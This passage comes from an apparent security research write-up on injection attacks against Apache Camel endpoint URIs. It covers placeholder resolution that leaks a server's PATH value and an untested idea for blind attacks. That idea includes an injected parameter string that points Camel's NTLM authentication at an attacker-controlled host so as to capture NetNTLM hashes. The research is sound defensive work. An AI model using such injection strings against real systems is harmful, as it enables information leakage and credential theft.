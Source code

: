 First, the inner property placeholder will be resolved, and replaced with its value, then the second pass happens which will attempt to resolve this:

{% raw %}
```
{{/bin:/usr/bin:/usr/sbin:/sbin}}
```
{% endraw %}

Obviously Camel will not be able to resolve */bin* and will return */usr/bin:/usr/sbin:/sbin* back to us, as a fallback value, due to that colon. Not so bad, but we still compromise a little bit of our hard-earned info leak.



### Now do it with your eyes closed! (Next Steps)

All the information packed in this article heavily depends on inspecting the server responses, which we assumed will contain the errors/stack traces generated by Camel. But what if those are taken away from us? How can we cause havoc, deprived of our... *vision*?

Well, I am not exactly sure to be honest, as what is mentioned in this paragraph is completely untested and only a theoretical potential attack vector. We can indeed still utilize the same attack vector, injecting endpoints with "instructions" for Camel to process, but without seeing the results. We need a volunteer on the remote system, one that will happily lend a hand to the blind man that we are. And the name of the little sucker, NTLM.

Camel supports NTLM authentication, and we can potentially inject the following parameters in the endpoint URI so that the are processed by Camel:

```
3816/../?authMethod=NTLM&authMethodPriority=NTLM&authDomain=ATTACKERDOMAIN&authHost=ATTACKERIP
```

In theory, this would cause Camel to attempt to authenticate to us, happily sending us over some NetNTLM hashes, a valuable indicator of light that allows us to finally recover part of our vision. But this is only a theory.



### TL;DR

Camel seems neat. Please watch out what you feed to it, not because it doesn't work correctly, but because it does.

That's all folks, thanks for reading!
